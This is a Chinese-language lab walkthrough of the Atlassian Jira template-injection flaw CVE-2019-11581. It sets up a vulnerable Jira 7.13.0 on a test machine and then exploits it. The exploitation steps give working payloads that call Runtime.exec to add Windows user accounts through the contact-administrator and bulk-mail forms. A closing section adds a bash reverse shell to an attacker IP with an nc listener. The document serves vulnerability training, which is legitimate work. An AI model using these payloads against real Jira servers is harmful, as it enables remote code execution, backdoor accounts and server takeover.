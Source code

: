 ```yaml
---
description: CVE-2019-11581
---
```


# Atlassian Jira 模板注入漏洞

## 【原理】

此漏洞由于Atlassian Jira中的Atlassian Jira Server和Jira Data Center模块存在模板注入，当”联系管理员表单“功能开启时，攻击者可以在表单插入java恶意代码,当服务端对传入数据进行解析时,会执行数据中插入的恶意代码,并执行其中的命令。**攻击者通过这种方式可以实现远程代码执行漏洞的利用，获取服务器的敏感信息泄露，甚至可以利用此漏洞进一步对服务器数据进行修改，增加，删除等操作**，对服务器造成巨大的影响。

## 【工具】

* Windows7

## 【步骤】

```text
win7 ip：192.168.0.103
漏洞利用条件：联系管理员处必须开启 （需要知道后台管理员账号密码）
```

1.点击启动场景按钮，等待场景启动完成后，通过靶标接入协议进入漏洞标靶

2.环境准备:Atlassian JIRAv7.13.0 \(以该版本为例，该版本存在漏洞）下载地址：

[https://product-downloads.atlassian.com/software/jira/downloads/atlassian-jira-software-7.13.0-x64.exe](https://product-downloads.atlassian.com/software/jira/downloads/atlassian-jira-software-7.13.0-x64.exe)

安装过程不再详细描述（按照提示进行安装，先在官方注册一个账号然后拿到一个试用期序列号并进行安装），注意，到了邮件配置那一步经尽量选以后\(默认就是\)，然后进入后台配置。

[https://id.atlassian.com/signup?application=mac&continue=https://my.atlassian.com](https://id.atlassian.com/signup?application=mac&continue=https://my.atlassian.com)

登录注册环境后，选择[New Trial License](https://my.atlassian.com/license/evaluation)

![image-20210223114900852](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223114900852.png)

![image-20210223114939134](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223114939134.png)

输入服务器ID生成许可证

![image-20210223115152709](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223115152709.png)

![image-20210223114745086](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223114745086.png)

验证完成之后，创建账户~

![image-20210223115223063](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223115223063.png)

```text
用户名：admin
密码：sec-2021
```

邮件配置选以后\(默认就是\)

![image-20210223133850032](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223133850032.png)

然后进入后台配置。

![image-20210223140713796](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223140713796.png)

安装完成~

![image-20210223143343089](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223143343089.png)

3.确认未登陆状态下漏洞的存在

访问如下URL（无需管理员账户权限）：

[http://192.168.0.103:8080/secure/ContactAdministrators!default.jspa](http://192.168.0.103:8080/secure/ContactAdministrators!default.jspa)

如果提示如下图，这说明没有配置联系管理员是无法触发漏洞。

![image-20210223145057082](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223145057082.png)

请登陆后台开启联系管理员，配置地址如下：

[http://192.168.0.103:8080/secure/admin/EditApplicationProperties!default.jspa](http://192.168.0.103:8080/secure/admin/EditApplicationProperties!default.jspa)

输入账号密码进行登录。

默认是关闭的，需要配置了STMP发信后才能开启，配置STMP的时候可以测试连接，服务器必须开25端口，不然不能发邮件，下图是开启成功

![image-20210223150016533](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223150016533.png)

![image-20210223150102555](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223150102555.png)

记得点击更新~

4.未登陆状态下触发漏洞

访问：[http://192.168.0.103:8080/secure/ContactAdministrators!default.jspa](http://192.168.0.103:8080/secure/ContactAdministrators!default.jspa)

![image-20210223150222453](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223150222453.png)

```text
在Subject填入payload，注意，我这里环境是windows机器，所以可以添加账号观察，Linux可以用反弹shell的代码等等,反正换成自己想执行的命令。

$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user bk abc@ABC123 /add').waitFor()
```

![image-20210223150314511](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223150314511.png)

发送了后可能会等一会儿，因为要加入邮件队列。这时候再上服务器执行net user查看，发现正是刚刚执行命令添加的账户。

![image-20210223151150202](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223151150202.png)

5.登陆管理员账号触发漏洞

登陆管理员账号，然后访问如下URL：

[http://192.168.0.103:8080/secure/admin/SendBulkMail!default.jspa](http://192.168.0.103:8080/secure/admin/SendBulkMail!default.jspa)

填入payload，如下，注意执行命令添加账号的账户名

```text
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user bk01 abc@ABC123 /add').waitFor()
```

![image-20210223152215875](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223152215875.png)

点击发送，稍作等待即可看到创建好了一个用户。

![image-20210223152338184](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210223152338184.png)

6.拓展

```text
linux下可执行：
目标Jira系统可执行的POC
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://www.baidu.com').waitFor()
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('bash -i >& /dev/tcp/攻击者IP/2333 0>&1').waitFor()
攻击者主机执行:nc  -lvvp 2333
```

